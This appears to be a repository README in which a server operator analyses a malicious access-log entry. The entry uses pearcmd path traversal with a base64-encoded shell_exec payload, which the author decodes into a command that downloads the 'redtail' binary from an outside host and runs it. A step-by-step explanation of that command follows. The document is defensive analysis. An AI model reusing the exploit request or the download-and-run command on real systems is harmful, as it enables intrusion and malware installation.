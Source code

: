 # redtail

While analyzing my daily access.log report, I noticed something really, really wrong.


> 26 December 2023, 04:21	202.1.200.239	GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode(\


Above is the processed access.log report. I believe there's a raw base64 string present over there, but it got trimmed by my faulty regex script. So I decided to inspect the raw access.log file : 

> 202.1.200.239 - - [25/Dec/2023:21:21:16 +0000] "GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/+/tmp/ohhellohttpserver.php HTTP/1.1" 404 419 "-" "Custom-AsyncHttpClient"

Umm... Why is the `shell_exec` part missing here?

I decided to modify my access.log processor script. So I instructed the script that whenever a string containing "base64_decode" is being processed, please show me the raw log line.

Here's what I got :


```
202.1.200.239 - - [25/Dec/2023:21:21:16 +0000] "GET /index.php?lang=../../../../../../../../usr/local/lib/php/pearcmd&amp;+config-create+/&amp;/<!--?shell_exec(base64_decode(\"bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=\"));?-->+/tmp/ohhellohttpserver.php HTTP/1.1" 404 419 "-" "Custom-AsyncHttpClient"
```
Here's the true culprit 

> shell_exec(base64_decode(\"bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=\"))

And finally, I managed to extract the base64 string.


> bWtkaXIgLXAgL3RtcC8kKHdob2FtaSk7IGNkIC90bXAvJCh3aG9hbWkpOyB3Z2V0IGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBjdXJsIC1PIGh0dHA6Ly9kdy5vaHV5YWwueHl6L2Rvd25sb2FkL3JlZHRhaWwueDg2XzY0OyBtdiByZWR0YWlsLng4Nl82NCBwaHAuc2VsZnJlcDsgY2htb2QgK3ggcGhwLnNlbGZyZXA7IC4vcGhwLnNlbGZyZXA7IGVjaG8gUEhQLlNFTEZSRVA=


Let's decode this base64 string.


> mkdir -p /tmp/$(whoami); cd /tmp/$(whoami); wget http://dw.ohuyal.xyz/download/redtail.x86_64; curl -O http://dw.ohuyal.xyz/download/redtail.x86_64; mv redtail.x86_64 php.selfrep; chmod +x php.selfrep; ./php.selfrep; echo PHP.SELFREP


Umm. I don't understand it. Let's ask ChatGPT.

----

This script seems to be a set of commands executed in a Unix-like shell (like Bash). Let's break it down step by step:

1. **Create a temporary directory with the user's name:**
   ```bash
   mkdir -p /tmp/$(whoami)
   ```
   - `mkdir`: command to create a directory.
   - `-p`: option to create parent directories if they don't exist.
   - `/tmp/$(whoami)`: specifies the path of the directory. `/tmp/` is the temporary directory, and `$(whoami)` is a command substitution that gets replaced with the current username.

2. **Change to the newly created temporary directory:**
   ```bash
   cd /tmp/$(whoami)
   ```
   - `cd`: command to change the current working directory.

3. **Download a file named "redtail.x86_64" from a remote server using `wget` and `curl`:**
   ```bash
   wget http://dw.ohuyal.xyz/download/redtail.x86_64
   curl -O http://dw.ohuyal.xyz/download/redtail.x86_64
   ```
   - `wget`: command to download files from the internet.
   - `curl -O`: command to download a file and save it with the same name as the remote file.

4. **Rename the downloaded file to "php.selfrep":**
   ```bash
   mv redtail.x86_64 php.selfrep
   ```
   - `mv`: command to rename or move files.

5. **Give execute permissions to the renamed file:**
   ```bash
   chmod +x php.selfrep
   ```
   - `chmod +x`: command to make the file executable.

6. **Execute the renamed file:**
   ```bash
   ./php.selfrep
   ```
   - `./`: specifies the current directory.
   - `php.selfrep`: the executable file that was downloaded and renamed.

7. **Print a message "PHP.SELFREP":**
   ```bash
   echo PHP.SELFREP
   ```
   - `echo`: command to print text to the console.

----

Before that URL is unaccessible, I archived the `redtail.x86_64` executable here for research purposes.

### So?

I wish some security researchers could find out what these executables actually do. 

Oh, I also managed to find another malware in the wild, similar to this : [jaws.exploit](https://github.com/altilunium/jaws.exploit). 

All I have to do to get this one is by setting up a honeypot server with a publicly accessible IP.
